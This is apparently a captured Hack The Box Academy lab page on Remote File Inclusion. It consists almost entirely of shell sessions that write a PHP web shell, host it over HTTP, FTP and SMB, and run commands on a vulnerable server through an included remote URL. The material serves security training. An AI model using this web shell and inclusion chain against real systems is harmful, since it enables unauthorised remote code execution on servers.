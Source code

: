 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/23/section/254
// Platform Version: V1
// Module ID: 23
// Module Name: File Inclusion
// Module Difficulty: Medium
// Section ID: 254
// Section Title: Remote File Inclusion (RFI)
// Page Title: Hack The Box - Academy
// Page Number: 6
-->

# Remote File Inclusion (RFI)

**Module Name:** File Inclusion **Page Number:** 6

#### 

#### FILE INCLUSION

# Remote File Inclusion (RFI)

## Local vs. Remote File Inclusion

## Verify RFI

``` shell-session
[!bash!]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

![https://academy.hackthebox.com/storage/modules/23/lfi_local_url_include.jpg](https://academy.hackthebox.com/storage/modules/23/lfi_local_url_include.jpg)

## Remote Code Execution with RFI

``` shell-session
[!bash!]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

## HTTP

``` shell-session
[!bash!]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

![https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

``` shell-session
[!bash!]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```

## FTP

``` shell-session
[!bash!]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

![https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

``` shell-session
[!bash!]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## SMB

``` shell-session
[!bash!]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

![https://academy.hackthebox.com/storage/modules/23/windows_rfi.png](https://academy.hackthebox.com/storage/modules/23/windows_rfi.png)

# 

# 

#### Questions

####